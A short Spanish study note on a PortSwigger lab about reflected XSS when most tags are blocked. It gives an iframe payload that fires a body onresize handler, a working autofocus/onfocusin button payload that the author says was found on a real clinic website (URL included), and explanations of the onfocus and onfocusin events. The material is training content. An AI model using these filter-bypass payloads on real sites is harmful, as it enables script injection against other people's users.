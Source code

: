 ```yaml
---
layout: default
title: 14 - Reflected XSS into HTML context with most tags and attributes blocked
---
```


```html
<iframe src="https://0a9f008204f5b89381d4d524009300ef.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

Fuzzear por todas las etiquetas, fuzzear por todos los eventos en https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Así es como encontramos el XSS de ginemed:
https://www.ginemed.es/?s=%3Cbutton+autofocus+onfocusin%3Dalert%281%29%3Etest%3C%2Fbutton%3E

```html
<button autofocus onfocusin="alert(1)">test</button>
```

### Explicación:

- **`<button>`**: Define un botón estándar.
- **`autofocus`**: Hace que el botón reciba automáticamente el foco cuando la página se carga.
- **`onfocusin="alert(1)"`**: Muestra una alerta con el número `1` cuando el botón recibe el foco.

Este código hará que, al cargar la página, el botón automáticamente se enfoque y ejecute la alerta `alert(1)` debido al evento `onfocusin`.

### `onfocus`

- **Propósito**: `onfocus` es un evento que se dispara cuando un elemento recibe el foco, ya sea mediante un clic del ratón o la navegación con el teclado.
- **Comportamiento**: Este evento solo se activa en el elemento al que se le ha asignado el foco, y no en sus elementos secundarios. No se propaga a los elementos padres en el DOM.
- **Ejemplo**:

  ```html
  <input type="text" onfocus="alert('Elemento enfocado')">
  ```

  En este caso, se mostrará una alerta cuando el `<input>` reciba el foco.

### `onfocusin`

- **Propósito**: `onfocusin` es un evento que se dispara cuando un elemento o cualquiera de sus elementos descendientes recibe el foco. Es el equivalente al evento `focus` pero con propagación (burbujeo) a través del DOM.
- **Comportamiento**: A diferencia de `onfocus`, `onfocusin` se propaga hacia los elementos padres. Esto significa que el evento puede ser capturado en un contenedor incluso si el foco se mueve a un elemento hijo.
- **Ejemplo**:

  ```html
  <div onfocusin="alert('Elemento o descendiente enfocado')">
    <input type="text">
  </div>
  ```

  En este caso, se mostrará una alerta tanto si el `<input>` recibe el foco como si el `<div>` lo hace, ya que `onfocusin` burbujea a través del DOM.


